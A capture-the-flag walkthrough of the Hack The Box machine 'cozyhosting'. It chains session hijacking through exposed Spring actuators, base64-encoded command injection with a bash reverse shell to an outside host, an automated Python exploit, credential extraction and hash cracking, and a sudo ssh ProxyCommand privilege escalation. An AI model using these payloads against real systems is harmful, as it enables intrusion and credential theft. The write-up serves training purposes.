


# cozyhosting

| Hostname   | Difficulty |
| ---        | ---        |
| cozyhosting | Easy           |

Machine IP: 10.10.11.230 :

```bash
TARGET=10.10.11.230       # cozyhosting IP address
```

## Initial Reconnaissance

### Ports and services

```shell
nmap $TARGET --open -p-
```

Result:

```text
Nmap scan report for 10.10.11.230
Host is up (0.025s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### web service

We can identify this web service :

```shell
whatweb $TARGET
```

Result:

```text
http://10.10.11.230 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.230], RedirectLocation[http://cozyhosting.htb], Title[301 Moved Permanently], nginx[1.18.0]
```

There is a redirection to "http://cozyhosting.htb", so we can register the hostname :

```shell
echo "$TARGET    cozyhosting.htb" >> /etc/hosts
```

We cantry to enumerate the directory structure of the site :

```shell
gobuster dir -t 10 -w /opt/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://$TARGET/
```

But nothing except that most pages will give a 301 HTTP code. So let's to see it :

http://cozyhosting.htb/test



This is a typical spring-boot error page : [https://zetcode.com/springboot/whitelabelerror/](https://zetcode.com/springboot/whitelabelerror/)

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)

An interesting point with this kind of application is the use of actuators : 

[http://cozyhosting.htb/actuator/health](http://cozyhosting.htb/actuator/health)

```
{"status":"UP"}
```

[https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators#mappings](https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators#mappings)

[https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#sessions](https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#sessions)

One interesting working option is the sessions actuator page :

[http://cozyhosting.htb/actuator/sessions](http://cozyhosting.htb/actuator/sessions)

```
{"7DCC5A4F31E857772760C755C14ED62D":"kanderson","DBA00B7BEF9FFCB43C49ABCB6276F10F":"UNAUTHORIZED"}
```

So there is a session for user “kanderson”

We can also get some mapping/routing informations to give possible pages :

[http://cozyhosting.htb/actuator/mappings](http://cozyhosting.htb/actuator/mappings)

```json
{"contexts":{"application":{"mappings":{"dispatcherServlets":{"dispatcherServlet":[{"handler":"Actuator web endpoint 'health'","predicate":"{GET [/actuator/health], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}","details":{"handlerMethod":{"className":"org.springframework.boot.actuate.endpoint.web.servlet.AbstractWebMvcEndpointHandlerMapping.OperationHandler","name":"handle","descriptor":"(Ljakarta/servlet/http/HttpServletRequest;Ljava/util/Map;)Ljava/lang/Object;"},"requestMappingConditions":{"consumes":[],"headers":[],"methods":["GET"],"params":[],"patterns":["/actuator/health"],"produces":[{"mediaType":"application/vnd.spring-boot.actuator.v3+json","negated":false},{"mediaType":"application/vnd.spring-boot.actuator.v2+json","negated":false},{"mediaType":"application/json","negated":false}]}}},{"handler":"Actuator web endpoint 'sessions'","predicate":"{GET [/actuator/sessions], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}","details":{"handlerMethod":{"className":"org.springframework.boot.actuate.endpoint.web.servlet.AbstractWebMvcEndpointHandlerMapping.OperationHandler","name":"handle","descriptor":"(Ljakarta/servlet/http/HttpServletRequest;Ljava/util/Map;)Ljava/lang/Object;"},"requestMappingConditions":{"consumes":[],"headers":[],"methods":["GET"],"params":[],"patterns":["/actuator/sessions"],"produces":[{"mediaType":"application/vnd.spring-boot.actuator.v3+json","negated":false},{"mediaType":"application/vnd.spring-boot.actuator.v2+json","negated":false},{"mediaType":"application/json","negated":false}]}}},{"handler":"Actuator web endpoint 'env-toMatch'","predicate":"{GET [/actuator/env/{toMatch}], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}","details":{"handlerMethod":{"className":"org.springframework.boot.actuate.endpoint.web.servlet.AbstractWebMvcEndpointHandlerMapping.OperationHandler","name":"handle","descriptor":"(Ljakarta/servlet/http/HttpServletRequest;Ljava/util/Map;)Ljava/lang/Object;"},"requestMappingConditions":{"consumes":[],"headers":[],"methods":["GET"],"params":[],"patterns":["/actuator/env/{toMatch}"],"produces":[{"mediaType":"application/vnd.spring-boot.actuator.v3+json","negated":false},{"mediaType":"application/vnd.spring-boot.actuator.v2+json","negated":false},{"mediaType":"application/json","negated":false}]}}},{"handler":"Actuator web endpoint 'env'","predicate":"{GET [/actuator/env], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}","details":{"handlerMethod":{"className":"org.springframework.boot.actuate.endpoint.web.servlet.AbstractWebMvcEndpointHandlerMapping.OperationHandler","name":"handle","descriptor":"(Ljakarta/servlet/http/HttpServletRequest;Ljava/util/Map;)Ljava/lang/Object;"},"requestMappingConditions":{"consumes":[],"headers":[],"methods":["GET"],"params":[],"patterns":["/actuator/env"],"produces":[{"mediaType":"application/vnd.spring-boot.actuator.v3+json","negated":false},{"mediaType":"application/vnd.spring-boot.actuator.v2+json","negated":false},{"mediaType":"application/json","negated":false}]}}},{"handler":"Actuator root web endpoint","predicate":"{GET [/actuator], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}","details":{"handlerMethod":{"className":"org.springframework.boot.actuate.endpoint.web.servlet.WebMvcEndpointHandlerMapping.WebMvcLinksHandler","name":"links","descriptor":"(Ljakarta/servlet/http/HttpServletRequest;Ljakarta/servlet/http/HttpServletResponse;)Ljava/util/Map;"},"requestMappingConditions":{"consumes":[],"headers":[],"methods":["GET"],"params":[],"patterns":["/actuator"],"produces":[{"mediaType":"application/vnd.spring-boot.actuator.v3+json","negated":false},{"mediaType":"application/vnd.spring-boot.actuator.v2+json","negated":false},{"mediaType":"application/json","negated":false}]}}},{"handler":"Actuator web endpoint 'beans'","predicate":"{GET [/actuator/beans], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}","details":{"handlerMethod":{"className":"org.springframework.boot.actuate.endpoint.web.servlet.AbstractWebMvcEndpointHandlerMapping.OperationHandler","name":"handle","descriptor":"(Ljakarta/servlet/http/HttpServletRequest;Ljava/util/Map;)Ljava/lang/Object;"},"requestMappingConditions":{"consumes":[],"headers":[],"methods":["GET"],"params":[],"patterns":["/actuator/beans"],"produces":[{"mediaType":"application/vnd.spring-boot.actuator.v3+json","negated":false},{"mediaType":"application/vnd.spring-boot.actuator.v2+json","negated":false},{"mediaType":"application/json","negated":false}]}}},{"handler":"Actuator web endpoint 'mappings'","predicate":"{GET [/actuator/mappings], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}","details":{"handlerMethod":{"className":"org.springframework.boot.actuate.endpoint.web.servlet.AbstractWebMvcEndpointHandlerMapping.OperationHandler","name":"handle","descriptor":"(Ljakarta/servlet/http/HttpServletRequest;Ljava/util/Map;)Ljava/lang/Object;"},"requestMappingConditions":{"consumes":[],"headers":[],"methods":["GET"],"params":[],"patterns":["/actuator/mappings"],"produces":[{"mediaType":"application/vnd.spring-boot.actuator.v3+json","negated":false},{"mediaType":"application/vnd.spring-boot.actuator.v2+json","negated":false},{"mediaType":"application/json","negated":false}]}}},{"handler":"Actuator web endpoint 'health-path'","predicate":"{GET [/actuator/health/**], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}","details":{"handlerMethod":{"className":"org.springframework.boot.actuate.endpoint.web.servlet.AbstractWebMvcEndpointHandlerMapping.OperationHandler","name":"handle","descriptor":"(Ljakarta/servlet/http/HttpServletRequest;Ljava/util/Map;)Ljava/lang/Object;"},"requestMappingConditions":{"consumes":[],"headers":[],"methods":["GET"],"params":[],"patterns":["/actuator/health/**"],"produces":[{"mediaType":"application/vnd.spring-boot.actuator.v3+json","negated":false},{"mediaType":"application/vnd.spring-boot.actuator.v2+json","negated":false},{"mediaType":"application/json","negated":false}]}}},{"handler":"htb.cloudhosting.compliance.ComplianceService#executeOverSsh(String, String, HttpServletResponse)","predicate":"{POST [/executessh]}","details":{"handlerMethod":{"className":"htb.cloudhosting.compliance.ComplianceService","name":"executeOverSsh","descriptor":"(Ljava/lang/String;Ljava/lang/String;Ljakarta/servlet/http/HttpServletResponse;)V"},"requestMappingConditions":{"consumes":[],"headers":[],"methods":["POST"],"params":[],"patterns":["/executessh"],"produces":[]}}},{"handler":"org.springframework.boot.autoconfigure.web.servlet.error.BasicErrorController#error(HttpServletRequest)","predicate":"{ [/error]}","details":{"handlerMethod":{"className":"org.springframework.boot.autoconfigure.web.servlet.error.BasicErrorController","name":"error","descriptor":"(Ljakarta/servlet/http/HttpServletRequest;)Lorg/springframework/http/ResponseEntity;"},"requestMappingConditions":{"consumes":[],"headers":[],"methods":[],"params":[],"patterns":["/error"],"produces":[]}}},{"handler":"org.springframework.boot.autoconfigure.web.servlet.error.BasicErrorController#errorHtml(HttpServletRequest, HttpServletResponse)","predicate":"{ [/error], produces [text/html]}","details":{"handlerMethod":{"className":"org.springframework.boot.autoconfigure.web.servlet.error.BasicErrorController","name":"errorHtml","descriptor":"(Ljakarta/servlet/http/HttpServletRequest;Ljakarta/servlet/http/HttpServletResponse;)Lorg/springframework/web/servlet/ModelAndView;"},"requestMappingConditions":{"consumes":[],"headers":[],"methods":[],"params":[],"patterns":["/error"],"produces":[{"mediaType":"text/html","negated":false}]}}},{"handler":"ParameterizableViewController [view=\"admin\"]","predicate":"/admin"},{"handler":"ParameterizableViewController [view=\"addhost\"]","predicate":"/addhost"},{"handler":"ParameterizableViewController [view=\"index\"]","predicate":"/index"},{"handler":"ParameterizableViewController [view=\"login\"]","predicate":"/login"},{"handler":"ResourceHttpRequestHandler [classpath [META-INF/resources/webjars/]]","predicate":"/webjars/**"},{"handler":"ResourceHttpRequestHandler [classpath [META-INF/resources/], classpath [resources/], classpath [static/], classpath [public/], ServletContext [/]]","predicate":"/**"}]},"servletFilters":[{"servletNameMappings":[],"urlPatternMappings":["/*"],"name":"requestContextFilter","className":"org.springframework.boot.web.servlet.filter.OrderedRequestContextFilter"},{"servletNameMappings":[],"urlPatternMappings":["/*"],"name":"Tomcat WebSocket (JSR356) Filter","className":"org.apache.tomcat.websocket.server.WsFilter"},{"servletNameMappings":[],"urlPatternMappings":["/*"],"name":"serverHttpObservationFilter","className":"org.springframework.web.filter.ServerHttpObservationFilter"},{"servletNameMappings":[],"urlPatternMappings":["/*"],"name":"characterEncodingFilter","className":"org.springframework.boot.web.servlet.filter.OrderedCharacterEncodingFilter"},{"servletNameMappings":[],"urlPatternMappings":["/*"],"name":"springSecurityFilterChain","className":"org.springframework.boot.web.servlet.DelegatingFilterProxyRegistrationBean$1"},{"servletNameMappings":[],"urlPatternMappings":["/*"],"name":"formContentFilter","className":"org.springframework.boot.web.servlet.filter.OrderedFormContentFilter"}],"servlets":[{"mappings":["/"],"name":"dispatcherServlet","className":"org.springframework.web.servlet.DispatcherServlet"}]}}}}
```

There is a /admin page, redirecting to a login page :



We can notice the cookie value :

![[assets/cookie.png]]

The cookie value is the one given from the sessions actuator !

From the web browser, we can alter the cookie value :

![[assets/cooky_update.png]]

and change it for the "kanderson" session. With this change, we are now able to enter the admin portal at : http://cozyhosting.htb/admin

![[assets/kanderson.png]]

There is a form at the end of the page :

![[assets/form.png]]

The note :

```json
For Cozy Scanner to connect the private key that you received upon registration should be included in your host's .ssh/authorised_keys file.
```

This is a for to add some SSH keys.

We can test this form, and we can notice an error condition :

* Hostname = `localhost` (or anything)
* username = `<empty>`

in burpsuite :

![[assets/error.png]]

So this form is used to call ssh system command, and there is a sanitation issue we could use.

Since this is a linux command shell, we can try to mess this command line :

* with username = “;name” :

```json
Location: http://cozyhosting.htb/admin?error=usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface]           [-b bind_address] [-c cipher_spec] [-D [bind_address:]port]           [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11]           [-i identity_file] [-J [user@]host[:port]] [-L address]           [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port]           [-Q query_option] [-R address] [-S ctl_path] [-W host:port]           [-w local_tun[:remote_tun]] destination [command [argument ...]]/bin/bash: line 1: uname@127.0.0.1: command not found
```

especially :

```text
/bin/bash: line 1: uname@127.0.0.1: command not found
```

also with a ping command :

* username : “;ping 10.10.14.23;”

```
Location: http://cozyhosting.htb/admin?error=Username can't contain whitespaces!
```

Payload is probably good, but must not contain spaces ….

[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)

We could use ${IFS} to replace spaces, but also we can encode the payload with base64 (usefull to bypass filters).

Let's give a try !

```shell
echo "ping 10.10.14.23" |base64
```

Result:

```text
cGluZyAxMC4xMC4xNC4yMwo=
```

This give the final payload :

```text
;echo${IFS}"cGluZyAxMC4xMC4xNC4yMwo="|base64${IFS}-d|bash;
```

with a few `${IFS}` to replace spaces, and a base64 encoded payload.

We need to dump network packets to see the ping calling back our host :

```shell
tcpdump -i tun0
```

Result :

```
IP cozyhosting.htb > 10.10.14.23: ICMP echo request, id 2, seq 1, length 64
IP 10.10.14.23 > cozyhosting.htb: ICMP echo reply, id 2, seq 1, length 64
IP cozyhosting.htb > 10.10.14.23: ICMP echo request, id 2, seq 2, length 64
IP 10.10.14.23 > cozyhosting.htb: ICMP echo reply, id 2, seq 2, length 64
IP cozyhosting.htb > 10.10.14.23: ICMP echo request, id 2, seq 3, length 64
IP 10.10.14.23 > cozyhosting.htb: ICMP echo reply, id 2, seq 3, length 64
...
```

We have a ping ! We are able to execute commands on the remote target!

## Initial access

### Exploitation

By using this RCE, we can execute a reverse shell.

[https://www.revshells.com/](https://www.revshells.com/)

We can forge a reverse shell command :

```shell
echo "bash -i >& /dev/tcp/10.10.14.23/9001 0>&1" | base64
```

Result:

```text
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMy85MDAxIDA+JjEK
```

The complete payload (in the username field):

```
;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMy85MDAxIDA+JjEK"|base64${IFS}-d|bash;
```

We can start a listener on our host :

```shell
rlwrap -cAr nc -lvnp 9001
```

And we get a shell !

In order to get an automated way to get this reverse-shell (using session cookie, and trigger the payload), we can use this python script :


python code to get access :

```python
#!/usr/bin/python3

import base64, requests, sys, urllib

BaseUrl = 'http://cozyhosting.htb'

response = requests.get( BaseUrl + '/actuator/sessions')
print( "Response code: " + str( response.status_code ) )

if response.status_code != 200:
    sys.exit( -1 )

print( response.text )

sessions = response.json()
print( sessions )

# kanderson session key
targetSession = [k for k in sessions.items() if k[1]=='kanderson'][0][0]

print( 'targetSession: ' + targetSession )

payload = 'bash -i >& /dev/tcp/10.10.14.23/9001 0>&1;'
print( payload )
payloadB64 =  base64.b64encode( bytes( payload, 'ascii' ) ).decode('utf-8')
print( payloadB64 )
payloadAll = ';echo${IFS}"' + str(payloadB64) + '"|base64${IFS}-d|bash;' 

cookies = {'JSESSIONID': targetSession}

datas = { 'host': '127.0.0.1',
        'username': payloadAll
        }
print(cookies)
print(datas)
response = requests.post(  BaseUrl + '/executessh' , cookies=cookies, data=datas)
print( response.status_code )
print( response.headers )
```

From now we have a shell, we can enumerate the target host.
## Post-Exploitation

### Host Reconnaissance

We can list running processes :

```shell
ps -efH
```

This reveals a PostgreSQL service :

```text
postgres 1097 1 0 Sep27 ? 00:00:05 /usr/lib/postgresql/14/bin/postgres -D /var/lib/postgresql/14/main -c config_file=/etc/postgresql/14/main/postgresql.conf
```

In `/home` folder, there is only one user : `josh`

The jar file of the application is also available, so we can download it for analysis :

on our host :

```shell
updog --port 9090
```

On target host, upload the jar file :

```shell
curl -X POST -F 'file=@/app/cloudhosting-0.0.1.jar;filename=cloudhosting-0.0.1.jar' -F 'path=.' http://10.10.14.23:9090/upload
```

On our host, we can start by extracting jar content :

```shell
unzip cloudhosting-0.0.1.jar
```

in file BOOT-INF\classes\application.properties :

```text
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Credential found :

| Username | email | Password     | Hash | Usage      |
| -------- | ----- | ------------ | ---- | ---------- |
| josh         |       |              |      |            |
| **postgres** |       | **Vg&nvzAQ7XxR** |      | PostgreSQL |

We can go further and decompile this java application using `jd-gui`:

![[assets/source.png]]

```java
package BOOT-INF.classes.htb.cloudhosting.scheduled;

import java.io.IOException;
import java.util.concurrent.TimeUnit;
import org.springframework.scheduling.annotation.Scheduled;
import org.springframework.stereotype.Component;

@Component
public class FakeUser {
  @Scheduled(timeUnit = TimeUnit.MINUTES, fixedDelay = 5L)
  public void login() throws IOException {
    System.out.println("Logging in user ...");
    Runtime.getRuntime().exec(new String[] { "curl", "localhost:8080/login", "--request", "POST", "--header", "Content-Type: application/x-www-form-urlencoded", "--data-raw", "username=kanderson&password=MRdEQuv6~6P9", "-v" });
  }
}
```

We can add this new credential :

| Username  | email | Password     | Hash | Usage                |
| --------- | ----- | ------------ | ---- | -------------------- |
| josh         |       |              |      |            |
| postgres  |       | Vg&nvzAQ7XxR |      | PostgreSQL           |
| **kanderson** |       | **MRdEQuv6~6P9** |      | web app on port 8080 | 

Since we have a credential to connect to the database, let's explore it, using the `postgres`  credential :

```shell
psql -h localhost -U postgres -W
```

Start by listing databases :

```text
\list

List of databases
Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
|          |          |             |             | postgres=CTc/postgres
template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
|          |          |             |             | postgres=CTc/postgres
(4 rows)
```

Move to the `cozyhosting` database, and list tables :

```text
\connect cozyhosting
You are now connected to database "cozyhosting" as user "postgres".
\dt
List of relations
Schema | Name  | Type  |  Owner
--------+-------+-------+----------
public | hosts | table | postgres
public | users | table | postgres
(2 rows)
```

The `users` table could have some useful information :

```text
select * from users;
name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

We have 2 hashes that we can try to crack on our host:

file `pgsqlhashes.txt` :

```text
$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm 
```

```shell
john --wordlist /usr/share/wordlists/rockyou.txt ./pgsqlhashes.txt
```

We can recover `admin` password !

Credentials :

| Username  | email | Password             | Hash                                                           | Usage                |
| --------- | ----- | -------------------- | -------------------------------------------------------------- | -------------------- |
| josh      |       |                      |                                                                |                      |
| postgres  |       | Vg&nvzAQ7XxR         |                                                                | PostgreSQL           |
| kanderson |       | MRdEQuv6~6P9         |                                                                | web app on port 8080 |
| admin     |       | **manchesterunited** | `$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm` |                      |
| kanderson |       |                      | `$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim` |                      |

With all these credentials, we can test SSH access (port 22 was found open by nmap).

It appears that `josh` user have reused his password `manchesterunited` :

```shell
ssh josh@cozyhosting.htb
```

And we get a SSH session on target host

### Privilege Escalation

We can quickly enumerate this host under this user to find :

```shell
sudo -l
```

```text
User josh may run the following commands on localhost:
(root) /usr/bin/ssh *
```

[https://gtfobins.github.io/gtfobins/ssh/#sudo](https://gtfobins.github.io/gtfobins/ssh/#sudo)

And we can find an exploit to get a shell :

```shell
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

And we are root :

```shell
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
#
```
